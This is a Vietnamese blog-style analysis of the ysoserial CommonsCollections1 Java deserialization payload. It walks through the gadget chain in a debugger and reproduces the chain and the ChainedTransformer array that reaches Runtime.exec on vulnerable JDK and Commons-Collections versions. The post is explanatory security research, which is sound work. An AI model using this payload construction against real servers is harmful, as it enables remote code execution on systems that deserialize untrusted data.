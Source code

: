 # CommonsCollections1(CC1)

- Blog này nằm trong series phân tích các payload CommonsCollections trong ysoserial
- Bài đầu tiên này mình sẽ đi phân tích CC1
- Vào source code tạo nên payload CC1 lấy được gadget chain của payload này

```php
ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
```

- Payload này hoạt động tốt nhất trên **JDK ≤ 8u70** (tức **trước 8u71**) và phải sử dụng thư viện Commons-colletions-3.1
- Ta thử đặt breakpoint ở hàm exec trong Class Runtime
    
    ![image.png](image.png)
    
- Bây giờ thực thi chương trình với đầu vào là file payload.bin để debug
    
    ![image.png](image%201.png)
    
- Chương trình bắt đầu thực thi hàm readObject() đồng thời một hàm readObject0() cũng được gọi theo, ta thấy stacktraces trỏ tới vị trí này

![image.png](image.png)

- Ở đây ***TC_OBJECT*** được khai báo cùng với các biến khác.

![image.png](image%203.png)

- Sau đó hàm ***readSerialData(obj, desc)*** được được gọi đến, và obj lúc này thuộc ***Class AnnotationInvocationHandler***

![image.png](image%204.png)

- Tại ***readSerialData(obj, desc), invokeReadObject(obj, this)*** được gọi với obj lúc này vẫn là object của class ***AnnotationInvocationHandler*** và this là payload của mình

![image.png](image%205.png)

- Sau đó hàm InvokeReadObject() được gọi. Tại đây biến `readObjectMethod` là một object của class `Method`

![image.png](image%206.png)

![image.png](image%207.png)

- Giá trị của `readObjectMethod` lúc khởi tạo là “readObject”

![image.png](image%208.png)

- Vì `readObjectMethod` là một object của class `Method` sẽ có hàm invoke để trigger hàm `readObject` ở `obj` (`AnnotationInvocationHandler` )

⇒ Ta có thể hiểu rằng `readObjectMethod.invoke(obj, new Object[]{ in });` = `AnnotationInvocationHandler.readObject()`

- Ta có thể thấy lúc này ***this.memberValues*** là 1 `$Proxy0` instance và nó gọi đến entrySet() < = > ***Map(Proxy).entrySet()***

![image.png](image%209.png)

- Hàm ***invoke()*** của ***AnnotationInvocationHandler*** được gọi và ***this.membervalues*** lúc này đã là 1 LazyMap instance → Hàm LazyMap.get() được gọi

![image.png](image%2010.png)

- Tại ***LazyMap.get(),*** dễ dàng pass được điều kiện ***map.containsKey(key)***, chỉ cần key không phải là giá trị null

![image.png](image%2011.png)

- Ta thấy factory ở đây là một object của ***ChainedTransformer*** nên sẽ gọi đến ***ChainedTransformer.transform()***
- iTransformers ở đây có 5 phần tử là do đoạn này payload

```php
final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };
```

![image.png](image%2012.png)

![image.png](image%2013.png)

- Đoạn này hoàn toàn giống với đoạn tôi đã phân tích trong CC5: ([Tham khảo](https://www.notion.so/CommonsCollections5-CC5-24c1eb3c27c58048a6d6f904eb71353a?pvs=21))
    
    ```php
    ChainedTransformer.transform()
    								ConstantTransformer.transform()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Class.getMethod()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.getRuntime()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.exec()
    ```

